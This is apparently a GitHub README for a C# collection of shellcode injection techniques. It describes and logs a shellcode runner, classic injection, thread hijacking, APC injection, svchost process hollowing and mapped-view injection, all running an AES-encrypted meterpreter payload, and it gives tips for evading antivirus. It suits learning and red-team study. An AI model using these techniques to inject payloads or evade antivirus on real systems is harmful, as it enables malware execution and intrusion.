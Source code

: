 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

## Shellcode Runner
[ShellcodeRunner.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ShellcodeRunner.cs) : This technique isn't strictly an injection technique (because we execute the shellcode in the same process) but is the simplest of all techniques. We ensure the shellcode uses a fixed memory location in an `unsafe` context. We change the protection on the page where the shellcode is located so we can execute it. We then use a C# delegate function to execute the shellcode.

```
[+] Using technique: ShellcodeInjectionTechniques.ShellcodeRunner
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x20D000418E0
[+] Executing shellcode - memory address: 0x20D000418E0
```

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Local Thread Hijacking
[LocalThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/LocalThreadHijack.cs) : This technique creates a new local thread in a suspended state, we then hijack the thread, sets the instruction pointer (RIP) to our injected code and then resume the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.LocalThreadHijack
[+] CreateThread() - thread handle: 0x374
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x270800418E0
[+] GetThreadContext() - thread handle: 0x374
[+] RIP is: 0x7FFA79EE2630
[+] SetThreadContext(), RIP assigned: 0x270800418E0
[+] ResumeThread() - thread handle: 0x374
```

## Asychronous Procedure Call Injection
[ACPInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/APCInjection.cs) : This technique is similar to the Thread Hijacking technique. We inject the shellcode into a remote thread, then queue an APC object in the thread. When the thread enters an alertable state (when it calls SleepEx, SignalObjectAndWait, MsgWaitForMultipleObjectsEx, WaitForMultipleObjectsEx, or WaitForSingleObjectEx) it runs our shellcode pointed to by our queued APC object. 

```
[+] Found process: 25320
[+] Using technique: ShellcodeInjectionTechniques.APCInjection
[+] Found thread: 23796
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x24E064D0000
[+] WriteProcessMemory() - remote address: 0x24E064D0000
[+] QueueUserAPC() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Notes
Remember you will need to start a process to inject to, except when using the shellcode runner, local thread hijack technique or the process hollowing technique (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the shellcode runner, local thread hijack technique or the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
